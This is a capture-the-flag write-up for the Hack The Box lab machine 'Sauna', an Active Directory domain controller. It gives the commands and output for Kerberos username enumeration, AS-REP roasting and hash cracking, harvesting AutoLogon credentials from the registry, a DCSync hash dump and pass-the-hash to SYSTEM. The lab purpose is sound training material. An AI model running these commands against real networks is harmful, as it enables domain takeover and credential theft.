

# Sauna

This is the write-up for the box Sauna that got retired at the 18th July 2020.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.175    sauna.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/sauna.nmap 10.10.10.175
```

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-07-10 17:09:07Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
```

According to the open ports, this box is an **Active Directory Domain Controller**.

## Checking HTTP (Port 80)

The web page is a custom developed homepage of a fictional bank.
All pages are static HTML files, but there are some potential usernames on the _/about.html_ site:
- Fergus Smith
- Shaun Coins
- Hugo Bear
- Bowie Taylor
- Sophie Driver
- Steven Kerb

General username formats on Windows are as follows:
- _firstname.lastname_
- _f.lastname_
- _firstnamelastname_
- _flastname_

Example:
- _fergus.smith_
- _f.smith_
- _fergussmith_
- _fsmith_

So all 6 usernames have 4 different formats and these 32 usernames have to be validated.

## Checking SMB (Port 445)

The SMB port provides information about the hostname and domain name:
```
crackmapexec smb 10.10.10.175
```
```
SMB    10.10.10.175    445    SAUNA    [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
```

- Hostname: SAUNA
- Domain Name: EGOTISTICAL-BANK.LOCAL

Let put the domain name into our _/etc/hosts_ file.
```
10.10.10.175    EGOTISTICAL-BANK.LOCAL sauna.EGOTISTICAL-BANK.LOCAL
```

## Checking Kerberos (Port 88)

By doing a **Kerberos Pre-Authentication attack**, we can try to validate usernames against the domain.
When trying to authenticate to a domain via Kerberos and have a valid username, it will use Pre-Authentication and that is how this method works.

The tool [Kerbrute](https://github.com/ropnop/kerbrute) will help to accomplish this:
```
./kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL saune_users.txt
```
```
2021/07/10 13:20:57 >  Using KDC(s):
2021/07/10 13:20:57 >  10.10.10.175:88

2021/07/10 13:20:57 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
2021/07/10 13:20:57 >  Done! Tested 24 usernames (1 valid) in 0.156 seconds
```

It found one valid username _fsmith_.
The tool **Get-NPUsers** from the **Impacket Framework** can query for users with _"Do not require Kerberos preauthentication"_ set and export their TGTs for cracking:
```
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/fsmith -no-pass
```
```
[*] Getting TGT for fsmith
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b8111de79588a5cd79151f8b7249431c$558519(...)
```

Cracking the TGT with **Hashcat**:
```
hashcat -m 18200 sauna_fsmith.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password of the user _fsmith_ is:
> Thestrokes23

Luckily the user has enough privileges to authenticate to the **WinRM** service:
```
crackmapexec winrm 10.10.10.175 -u fsmith -p Thestrokes23

WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwn3d!)
```

Connecting to the box with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):
```
/opt/shells/evil-winrm/evil-winrm.rb -i 10.10.10.175 -u fsmith -p Thestrokes23
```

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Windows Enumeration script**:
```
Evil-WinRM PS C:\Users\FSmith\Documents> upload winPEAS.exe
```
```
.\winPEAS.exe
```

There are **AutoLogon credentials** stored on the box for the user _svc_loanmanager_:
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
```
DefaultUserName: EGOTISTICAL.LOCAL\svc_loanmanager
DefaultPassword: Moneymakestheworldgoround!
```

The username on the box is _svc_loanmgr_, so maybe this user has the same password:
```
net users /domain

svc_loanmgr
```

As this is a domain controller, the tool **BloodHound** should be run:
```
Evil-WinRM PS C:\Users\FSmith\Documents> upload SharpHound.exe

Evil-WinRM PS C:\Users\FSmith\Documents> ./SharpHound.exe

Evil-WinRM PS C:\Users\FSmith\Documents> download 20210710134006_BloodHound.zip
```

After analyzing the output, it looks like that the user _svc_loanmgr_ has the _DS-Replication-Get-Changes-All_ privilege on the domain.



In conjunction with the _DS-Replication-Get-Changes_ privilege, it is possible to perform a **DCSync attack** to get the password hashes of all domain users.

The tool **secretsdump** from the **Impacket Framework** can use this method to dump the hashes:
```
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
```
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
(...)
```

The hash of the _Administrator_ can now be used for a **Pass-The-Hash attack**:
```
crackmapexec winrm 10.10.10.175 -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff

WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\administrator:d9485863c1e9e05851aa40cbb4ab9dff (Pwn3d!)
```

Using **Impacket-PsExec** with the hash of _Administrator_:
```
impacket-psexec EGOTISTICAL-BANK.LOCAL/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff
```

It logs us in as _NT Authority\SYSTEM_!
